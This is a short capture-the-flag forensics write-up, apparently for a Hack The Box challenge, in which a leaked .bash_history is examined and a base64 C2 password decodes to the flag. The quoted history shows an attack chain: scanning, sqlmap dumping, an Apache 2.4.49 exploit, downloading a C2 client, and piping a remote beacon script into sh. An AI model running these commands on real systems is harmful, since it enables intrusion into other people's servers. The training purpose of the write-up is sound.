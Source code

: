 # Frontier Exposed
- **Category:** Forensics
- **Difficulty:** Very Easy
- **Description:** "The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!"

Accessing the docker URL will lead us to this page


By opening each file, we can see in the `.bash_history` :

```bash
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

We can see the use of a password and copying it into cyberchef gives us the flag : HTB{C2_cr3d3nt14ls_3xp0s3d}
